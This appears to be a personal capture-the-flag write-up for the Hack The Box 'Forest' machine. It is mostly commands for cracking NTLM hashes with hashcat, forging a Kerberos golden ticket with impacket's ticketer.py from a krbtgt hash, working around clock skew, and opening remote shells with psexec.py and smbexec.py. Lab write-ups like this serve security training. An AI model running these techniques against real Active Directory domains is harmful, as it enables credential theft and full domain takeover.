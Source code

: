 
We have hashes.out file
```
cat hashes.out | grep ::: | awk -F: '{print $4}'
```
We simply print the 4th part of the hash
![[Pasted image 20231115135515.png]]

```
cat hashes.out | grep ::: | awk -F: '{print $1":"$4}'
```
![[Pasted image 20231115140805.png]]

Hashcat  NTLM version 1000
Will get a token length exception error so will do a little tweak in command
```
.\hashcat.exe --user -m 1000 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20231115141135.png]]

So we got the password for user santi
```
user:santi
passwd:plokmijnuhb
```

This is what we will be targetting
![[Pasted image 20231115141824.png]]

```
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local  Wedontexist
```

```
To get the domain SID
GET-ADDomain htb.local
```
![[Pasted image 20231115141951.png]]

```
cd /usr/share/doc/python3-impacket/examples
```
![[Pasted image 20231115142500.png]]
You can see we have tickey.py

![[Pasted image 20231115142745.png]]
```
export KRB5CCNAME=Wedontexist.ccache 
```
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

We have an error even though we have added the 
10.10.10.161 htb.local in the host file than also we got the skew error
![[Pasted image 20231115143228.png]]

So we have learnt that time actually MATTERS
if we recall and have a look into our Nmap scan we can say that there's a deviation of time
![[Pasted image 20231115143538.png]]

I tried to do what i have done earlier but had no success in it 
```
timedatectl set-ntp true
timedatectl set-ntp false
ntpdate <domain ip address>
```

Will do Brute Force 
```
for i in $(seq 00 24); do date -s $i:36:00; psexec.py htb.local/Wedontexist@10.10.10.161 -k -no-pass; done
```
 
Finally Finally it connected today 
```
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

```
psexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```


Have to done changes to the host file
added - htb.local & forest
![[Pasted image 20231116175043.png]]

Host File
![[Pasted image 20231116175104.png]]


Let's Try wmiexec.py and it didn't worked
```
wmiexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```


But smbexec worked
```
smbexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```


So now the box is pwned completly 